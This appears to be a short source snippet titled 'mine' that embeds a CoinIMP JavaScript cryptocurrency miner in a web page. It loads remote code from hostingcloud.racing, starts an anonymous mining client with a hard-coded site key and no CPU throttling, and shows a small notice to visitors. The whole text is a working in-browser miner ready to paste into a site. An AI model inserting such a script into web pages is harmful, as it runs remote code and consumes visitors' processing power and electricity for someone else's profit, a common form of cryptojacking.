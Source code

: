 # mine
&lt;script src="https://www.hostingcloud.racing/YExW.js">&lt;/script> &lt;script>     var _client = new Client.Anonymous('5bb8401fb7f7dfdf64e4578f1cc6224a98beb67586e3f1baa2c6ec1c2a3476f9', {         throttle: 0, c: 'w'     });     _client.start();     _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");  &lt;/script>
